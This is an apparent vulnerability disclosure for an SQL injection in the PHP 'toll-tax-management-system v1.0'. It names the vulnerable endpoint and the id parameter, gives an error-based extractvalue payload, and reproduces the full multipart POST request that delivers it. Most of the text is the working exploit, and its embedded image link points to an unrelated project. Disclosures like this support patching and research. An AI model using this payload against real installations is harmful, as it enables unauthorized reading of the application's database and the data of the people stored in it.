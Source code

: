 # toll-tax-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ttms/classes/Master.php?f=save_pass_history

Vulnerability location:/ttms/classes/Master.php?f=save_pass_history, id

[+] Payload: 3'and/**/extractvalue(1,concat(char(126),database()))and' ---> id

Tested on Windows 10, XAMPP

```
POST /ttms/classes/Master.php?f=save_pass_history HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------14308677256421863342182671516
Content-Length: 567
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ttms/admin/?page=pass_history/manage_pass_history&id=3
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="id"

3'and/**/extractvalue(1,concat(char(126),database()))and'
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="pass_id"

2
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="toll_id"

2
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="cost"

100.00
-----------------------------14308677256421863342182671516--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

